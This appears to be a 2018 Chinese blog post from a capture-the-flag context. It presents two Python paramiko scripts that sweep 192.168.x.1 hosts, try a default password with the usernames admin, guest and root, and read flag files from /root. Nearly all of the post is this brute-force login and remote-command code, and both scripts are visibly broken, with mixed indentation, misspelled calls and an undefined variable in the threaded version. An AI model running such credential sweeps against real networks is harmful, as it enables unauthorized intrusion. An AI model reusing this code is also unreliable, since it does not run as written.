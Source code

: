 ```yaml
---
title: Python-SSH批量登陆并执行命令
date: 2018-05-04
tag: Python
layout: post
---
```



##直接上代码
 
``` python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
from time import ctime
usernm = ["admin","guest","root"]
passwd = "123456"
def ssh():
	for i in range(1,254):
		for user in usernm:
			try:
			    host = "192.168.%s.1"%i
			    s=paramiko.SSHClient()
			    #创建ssh对象
			    s.load_system_host_keys()
			    s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
			    #自动加载主机密钥 yes\no
			    s.connect(hostname=host,username=user,password=passwd)
			    stdin,stdout,stderr = s.exec_command('cat /root/flagvalue.txt')
                print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,user,ctime())
			    dd = stdout.read()
                print dd
			    stdin,stdout,stderr = s.exec_command('exit')
			    s.close
                if dd != None:
	                dd = None
	                break
	       except:
		       pass
print ssh()

```

> 跨网段批量登陆时速度明显会变慢

下面时运行结果图：
![运行结果](https://img-blog.csdn.net/20180504092159976?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)


#多线程版本

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
import threading
from time import ctime,sleep 
def ssh():
    usernm = ["admin","guest","root"]
	ip = "192.168.%s.1"%i
	for user in usernm:
                try:
					s=paramiko.SSHClient()	
					s.load_system_host_keys()
					s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
					s.connect(hostname=ip,username=user,password='123456')
					stdin,stdout,stderr = s.exec_command('cat /root/flag*')
                    print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,uer,ctime())
					dd = stdout.read()
                    print dd
                            
					stdin,stdout,stderr = s.exec_command('exit')
					s.close
                    if dd != None:
                       dd = None
                       break
                except:
                    pass

for i in range(100,200):
        a=threading.thread(target=ssh,arg=())
        sleep(0.1)
		a.strat()
```	


运行效果：
![多线程](https://img-blog.csdn.net/20180504165634332?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
